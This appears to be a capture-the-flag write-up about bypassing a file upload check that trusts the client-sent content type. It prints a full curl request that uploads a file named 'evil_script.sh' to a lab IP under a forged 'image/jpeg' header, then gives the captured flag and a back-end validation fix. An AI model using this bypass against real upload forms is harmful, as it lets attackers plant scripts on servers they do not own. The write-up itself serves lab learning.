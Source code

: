 # Upload Bypass

### Breach Description:

The file upload file improperly checks the format of files that are uploaded, relying on the indicated content type, allowing us to upload any type of file, as long as we manually specify a “image/jpeg” Content type.

### Explanation of the breach:

When playing around with the file upload we quickly notice that the file upload field will only accept .jpg files. This is unfortunate as we would like to upload other files, like super_hacking_script.html and prom_video.mp4.

So the first thing we can try is to lie, and simply change the extension of our files to jpg.

This “works” but gets us no flags, and is not quite good enough for us, as we would like not to break our files.

The “MAX_FILE_SIZE” is also set in the front end, which is odd, but does not seem to be what can trigger the flag.

However, exporting the request and modifying it to keep the content type, but change the file with curl gives us:

```jsx
curl 'http://192.168.64.4/?page=upload' \
-H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,/;q=0.8' \
-H 'Content-Type: multipart/form-data; boundary=----WebKitFormBoundarymFT7BcI67jE7pfyE' \
-H 'Referer: http://192.168.64.4/?page=upload' \
--data-raw $'------WebKitFormBoundarymFT7BcI67jE7pfyE\r\nContent-Disposition: form-data; name="MAX_FILE_SIZE"\r\n\r\n100000\r\n------WebKitFormBoundarymFT7BcI67jE7pfyE\r\nContent-Disposition: form-data; name="uploaded"; filename=evil_script.sh"\r\nContent-Type: image/jpeg\r\n\r\n\r\n------WebKitFormBoundarymFT7BcI67jE7pfyE\r\nContent-Disposition: form-data; name="Upload"\r\n\r\nUpload\r\n------WebKitFormBoundarymFT7BcI67jE7pfyE--\r\n' \
--compressed \
--insecure
```

Which will helpfully get us the following flag:

46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8

### Breach Fix:

Validating the file type in the back end and not relying on information from the front end is the minimum where security is concerned. All information coming from the front end can be intercepted, modified, and its integrity cannot be ensured.
